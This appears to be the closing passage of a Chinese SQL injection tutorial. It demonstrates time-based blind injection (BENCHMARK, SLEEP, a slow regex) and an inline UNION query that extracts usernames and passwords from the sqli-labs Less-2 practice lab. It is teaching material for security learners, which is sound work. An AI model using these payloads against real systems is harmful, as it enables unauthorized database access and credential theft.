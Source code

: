```java
mysql> select benchmark(10000000,sha(1));
+----------------------------+
| benchmark(10000000,sha(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (2.72 sec)
```

（3）**REPEAT(str,count)**：返回字符串 str 重复 count 次后的字符串。

```java
mysql> select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b');
+-------------------------------------------------------------+
| rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b') |
+-------------------------------------------------------------+
|                                                           0 |
+-------------------------------------------------------------+
1 row in set (5.92 sec)
```

我们以 sqli-labs 第 2 题为例构造请求：

```sql
http://localhost/Less-2/?id=1 and sleep(5)--+
```

在 Chrome 浏览器的 Network 标签内可以看到该请求刚好处时 5 秒钟，说明确实存在漏洞。

![Drawing 12.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPWaAOKOTAABkBqvFPw0394.png)  
图 13：Chrome 标签内展示

#### 内联/嵌套查询注入

使用内联查询来检索数据，本质上是嵌入在另一个查询中的查询，例如：

```sql
SELECT (SELECT password from users) from product;
```

以 sqli-labs 第 2 题为例，结合前面介绍的联合查询来构造请求：

```java
http://localhost/Less-2/?id=0 union select 1,(SELECT username from users where id=2),(SELECT password from users where id=2)
```

通过以上代码我们可以看到 id=2 的用户名和密码，如下图所示：

![Drawing 13.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPW-AdtmmAAOCJCqUXmU735.png)  
图 14：内联/嵌套查询注入

内联/嵌套查询注入方法可以在一句语句中嵌入另一句语句，在有限漏洞场景下能实现更多的功能，因此在实际的漏洞利用中常被用于实现敏感信息的窃取，甚至执行系统命令。

### 总结

这一讲我主要介绍了 SQL 注入的产生原理、分类，以及相关的测试技术。SQL 注入产生的原因是由于开发对用户的输入数据未做有效过滤，直接引用 SQL 语句执行，导致原本的数据被当作 SQL 语句执行。通常来说，SQL 注入分为数字型和字符型注入，我们主要通过注入参数类型来判断。
